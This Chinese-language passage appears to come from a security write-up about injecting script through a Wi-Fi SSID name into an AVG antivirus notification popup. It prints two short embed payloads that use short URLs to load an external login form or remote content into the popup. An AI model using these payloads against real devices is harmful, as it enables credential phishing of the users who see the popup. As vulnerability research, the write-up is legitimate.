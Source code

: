 该脚本已通过通知弹出窗口- AVG 触发

**6.4。**因为 SSID 名称被限制为 32 个字符，所以我们必须通过使用短 URL 服务来欺骗脚本。例如，我们尝试从其他门户触发登录表单..使用的脚本是:***><embed src =//tiny . cc/XYZABCX>***(也可以使用 bit.ly)。

![](img/7360265e7a35ce95bd7cdca755b883ce.png)

从其他门户触发登录表单以弹出通知

![](img/a0aa5f7716f44c870eef37e7092e65c6.png)

从其他门户触发登录表单到通知弹出窗口 II

而且好的一点是，还可以从其他外部 URL 触发脚本(功劳到 s0md3v)。下面举个例子:***><embed src =//14 . RS>***
